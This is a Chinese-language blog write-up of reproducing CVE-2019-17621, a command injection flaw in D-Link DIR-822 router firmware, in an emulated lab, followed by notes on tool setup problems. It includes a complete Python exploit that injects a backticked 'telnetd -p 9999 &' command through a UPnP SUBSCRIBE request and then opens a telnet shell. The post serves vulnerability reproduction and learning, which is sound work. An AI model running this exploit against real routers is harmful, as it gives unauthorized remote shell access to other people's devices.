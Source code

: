 ```yaml
---
title: CVE-2019-17621 dlink-822 命令注入漏洞复现
tags: [firmware analysis]
date: 2022-12-17 11:10:00
categories: [固件仿真]
excerpt: CVE-2019-17621 dlink-822 命令注入漏洞复现
---
```


#### 前言

第一次成功仿真一个固件并成功访问web并成功复现漏洞的exp ......

期间用 firmware-analysis-toolkit 和 firmware-analysis-plus （包括它的docker）在不同的操作系统（kali2020.4，kali2022.4）上来回实验了各种各样的固件，最终的成功目前看来只是一个偶然（因为遇到了太多我目前无法解释的问题）特此记录一下😪

#### 环境

kali2020.4 （同样的固件，同样版本的fap，但是在kali2022.4上运行这个固件时，会Internal Error 500（但起码能访问到这个ip......😅）

固件下载地址：<http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-822>

就这一个版本1.03B03

![](/img/CVE-2019-17621/1.jpg)

fap使用的是2.3版本 <https://github.com/liyansong2018/firmware-analysis-plus/tree/v2.3>

使用的exp来源 <https://www.jianshu.com/p/409106be87b7>

#### 运行

![](/img/CVE-2019-17621/2.jpg)

#### exp

```python
import socket
import os
from time import sleep
# Exploit By Miguel Mendez & Pablo Pollanco
def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}').format(host=server, port=port)
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    sleep(1)
    print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    results = con.recv(4096)
    sleep(1)
    print('[*] Running Telnetd Service')
    sleep(1)
    print('[*] Opening Telnet Connection\n')
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')
serverInput = raw_input('IP Router: ')
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

#### 坑

这是第一次仿真固件，一开始用的是firmware-analysis-toolkit（fat，<https://github.com/attify/firmware-analysis-toolkit>），首先它安装的时候就一堆问题。包括它的setup.sh里，要安装个lsb-core，但是apt找不到这个包，上网找了半天没找到一个能成功安装的，然后在他的issue里发现有人说这个不是必要的，可以删掉😅，然后setp.sh里还有个qt5base-dev的包，在kali上实际应该是qtbase5-dev😅，我不知道其他系统是啥样，还有一个坑是因为git  clone不稳定，我手动下载的zip包，但实际上这个clone是要recursive的😅，直接运行fat.py他是用pexpect去开启另一个进程，然后新启动的这个进程并不会把输出显示过来，看源码调试半天才发现是少文件，当时还很纳闷😅为啥会少（过于nc）

相对来说firmware-analysis-plus（fap，<https://github.com/liyansong2018/firmware-analysis-plus>）比较友好（和fat基本一样，只不过细节上做了一些修改），首先，其他项目的文件统一放在了库里（没有那个递归了😅）然后还做了一个docker，但是这个docker没有装jefferson，仿真不了jffs的文件系统，只能继续自己配环境😅。fat.py后面要加一个-q qemu-path的参数，否则network  interface列表会为空（nc如我还跑去人家issue底下问，还好人家没过几分钟就回复了😅）

然后exp部分一开始我用的这个帖子的exp ：<http://www.manongzj.com/blog/28-tkbcqqitdf.html>，跑不通，后来换成了前文用的exp，居然好使了。。。我没看出来这俩exp有啥区别，不想管了😅，第一次固件仿真到此结束，漏洞是啥原理暂时不想管了



